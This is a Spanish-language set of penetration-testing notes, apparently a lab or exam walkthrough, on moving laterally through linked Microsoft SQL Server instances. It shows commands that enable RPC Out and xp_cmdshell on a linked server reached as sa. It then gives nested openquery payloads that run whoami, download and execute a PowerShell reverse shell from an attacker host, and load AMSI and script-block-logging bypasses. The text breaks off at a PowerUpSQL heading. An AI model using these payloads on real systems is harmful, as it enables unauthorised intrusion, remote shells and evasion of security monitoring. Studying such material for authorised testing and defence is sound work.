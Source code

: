 Hasta el momento se tiene:
- Una cuenta de nosotros en US-MSSQL con privilegios del usuario actual el cual no es administrador en el sistema de base de datos actual.
- En DB-SQLPROD, dbuser se ha usado para el enlace entre las bases de datos 192.168.23.25 y US-MSSQL, y este usuario tiene privilegios de administrador.
- DB-SQLSRV está usando sa, usuario administrador del sistema el cual es usado de forma predeterminada por lo que tiene privilegios de administrador.
#### Command Execution

Si xp_cmdshell está habilitado (o rpcout es true que nos permite habilitar xp_cmdshell), es posible ejecutar comandos en cualquier nodo en los enlaces de base de datos usando los siguientes comandos.

Si ``rpcout`` está activado(desactivado por defecto), xp_cmdshell puede activarse mediante:

```
EXECUTE('sp_configure ''xp_cmdshell'',1;reconfigure;') AT "db-sqlsrv"
```

Por ejemplo, el enlace de DB-SQLProd a DB-SQLSrv está configurado para usar ``sa``. Es decir, podemos habilitar ``RPC Out`` y ``xp_cmdshell`` en DB-SQLSrv(Ignore los mensajes de advertencia):

```
### Invoke-SQLCmd
### Habilitar RPC OUT
PS C:\Windows\system32> Invoke-SqlCmd -Query "exec sp_serveroption @server='db-sqlsrv', @optname='rpc', @optvalue='TRUE'"

PS C:\Windows\system32> Invoke-SqlCmd -Query "exec sp_serveroption @server='db-sqlsrv', @optname='rpc out', @optvalue='TRUE'"

### Habilitar xp_cmdshell
PS C:\Windows\system32> Invoke-SqlCmd -Query "EXECUTE ('sp_configure ''show advanced options'',1;reconfigure;') AT ""db-sqlsrv"""

PS C:\Windows\system32> Invoke-SqlCmd -Query "EXECUTE('sp_configure ''xp_cmdshell'',1;reconfigure') AT ""db-sqlsrv"""
```

Desde el servidor SQL inicial, los comandos del SO pueden ejecutarse utilizando consultas de enlace anidadas:
##### HeidiSQL

```
### Consulta "whoami" en DB-SQLSRV
select * from openquery("192.168.23.25",'select * from openquery("db-sqlsrv",''select @@version as version;exec master..xp_cmdshell " whoami "'')')
```

```
### Revershell sobre DB-SQLSRV
select * from openquery("192.168.23.25",'select * from openquery("db-sqlsrv",''select @@version as version;exec master..xp_cmdshell "powershell iex (New-Object Net.WebClient).DownloadString(''''http://192.168.100.76/Invoke-PowerShellTcp.ps1'''')"'')')
```

```
### Revershell sobre DB-SQLSRV, amsybypass y sbloggingbypass
select * from openquery("192.168.23.25",'select * from openquery("db-sqlsrv",''select @@version as version;exec master..xp_cmdshell ''''powershell -c "iex (iwr -UseBasicParsing http://192.168.100.76/sbloggingbypass.txt);iex (iwr -UseBasicParsing http://192.168.100.76/amsibypass.txt);iex (iwr -UseBasicParsing http://192.168.100.76/Invoke-PowerShellTcp.ps1)"'''''')')
```
##### PowerUpSQL
